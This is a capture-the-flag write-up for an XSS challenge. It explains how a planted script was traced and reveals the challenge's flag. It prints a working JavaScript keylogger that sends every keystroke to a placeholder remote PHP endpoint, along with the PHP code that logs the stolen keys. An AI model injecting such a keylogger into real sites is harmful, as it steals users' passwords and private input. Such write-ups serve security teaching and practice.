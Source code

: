 ## Problem: Follow-me

A common vulnerability exists in this website. A hacker has already found it and has exploited it. You need to trace his steps and get the flag just like he did.

## Hint: 

The hacker exploited the XSS vulnerability. Dig deeper by checking was kind of script he injected.

## Explanation:

The hacker has injected a malicious javascript on the webpage. So, everytime a user visits the page, the javascript is loaded. The javascript is:

```
var keys = '';
 
document.onkeypress = function(e) {
    var get = window.event ? event : e;
    var key = get.keyCode ? get.keyCode : get.charCode;
    key = String.fromCharCode(key);
    keys += key;
}
 
window.setInterval(function(){
    new Image().src = 'http://ip/keyloggingsite.php?keylog=' + keys;
    keys = '';
}, 200);

```
The javascript is recording keystrokes of every user and sending it to the php server. 

The php script is:
```
<?php
 
if(!empty($_GET['keylog'])) {
    $logfile = fopen('logs.txt', 'a+');
    fwrite($logfile, $_GET['keylog']);
    fclose($logfile);
}
?>
```

We need to get access to the logs.txt file to get the flag

`lakshya_CTF{tr4cing_Th3_f00tst3p5}`